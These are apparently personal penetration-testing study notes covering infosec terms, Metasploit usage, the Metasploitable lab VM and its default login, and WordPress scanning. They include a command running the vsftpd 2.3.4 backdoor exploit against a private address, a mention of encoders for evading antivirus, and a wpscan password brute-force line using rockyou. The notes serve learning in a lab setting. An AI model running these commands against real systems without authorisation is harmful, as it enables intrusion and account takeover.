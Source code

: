 




dh2048.pem # RSA key length = 2048 bit



tavis Ormandy -> google project zero

stuxnet virus
infosec === information security



vendor neutral

open courceware

OWASP: open web application security project
OWASP chapter in Egypt

OSCP
self marketing



- mentorship
# kung fu termnology: Explain any command line tools EX: metasploit kung fu, netcat kung fu, nmap kung fu, ...


----------------------------------------------------------------------------------------------------------------------------------
----------------------------------------------------------------------------------------------------------------------------------
[Metasploit](https://www.metasploit.com)
========================================

- Metasploit Community
- Metasploit Pro

written in Ruby by Rapid7 use postgresql as a database
> GUI:
- armitage
- cobalt strike

> Commands:
metasploit command utility : msfconsole msf console

- msfconsole -> open metasploite
- DB_status -> connection between metasploite and exploitation database
- exit
- msfdb
    - msfdb init => initialize the database
    - msfdb start => start the database
    - msfdb stop => stop the database
    - msfdb delete => delete database and stop using it
    - msfdb reimit => delete and reinitialize the database
# databse.yml => databses (msf, msf_test) congifration file

- help
> core commands
* banner
* show
    - exploits
    - auxiliary
    - post
    - payloads -> reverse connection
    - encoders -> encode payload to bypassing the antivirus like shikata_ga_nai -> (the most well-known encoder)
    - nops

show:
- options
- targets
- anvanced


- search "vsftp"

- hosts
- vulns


-------------------------------------------------------------------------------------------
> module
- use auxiliary/scanner/discovery/arp_sweep
- info
- show options
- set <option_name> <value>
- unset <option_name>
- setg <option_name> <value>
- unsetg <option_name>
- show targets
- run
- back -> back from spasfic payload to entry point (msf=metasploit framework)
-------------------------------------------------------------------------------------------


msfconsole -x "use exploit/unix/ftp/vsftpd_234_backdoor;set rhost 192.168.1.9;run"

-x "" => excute
in file my_payload.rc:
use exploit/unix/ftp/vsftpd_234_backdoor
set rhost 192.168.1.9
run

msfconsole -r ./my_payload.rc


- C-z -> session paly in background
- sessions -l --list
- sessions -i <session_number>


- db_nmap => use nmap from metasploit


IDS: detact attacks and reports it for seystem admin

--------------------------------------------------------------------------------------------------------------------------------
[metasploitable](https://information.rapid7.com/download-metasploitable-2017.html)

linux Virtual Machine to Test Metasploit contains several intentional vulnerabilities for you to exploit. Metasploitable is essentially a penetration testing lab in a box, available as a VMware virtual machine (VMX)
created by the Rapid7 Metasploit team. (The Metasploitable login is “msfadmin”; the password is also “msfadmin”.)


Taking your first steps with Metasploit can be difficult – especially if you don’t want to conduct your first penetration test on your production network.







---------------------------------------------------------------------------------------------------------------------------------------------------------
mfsconsole
search <>
show options
set option <option_name> <value>
run === exploit




whatweb <URL>
wpscan --url <URL>

wpscan --url <URL> --username <john> --wordlist </usr/share/wordlist/rockyou.txt>
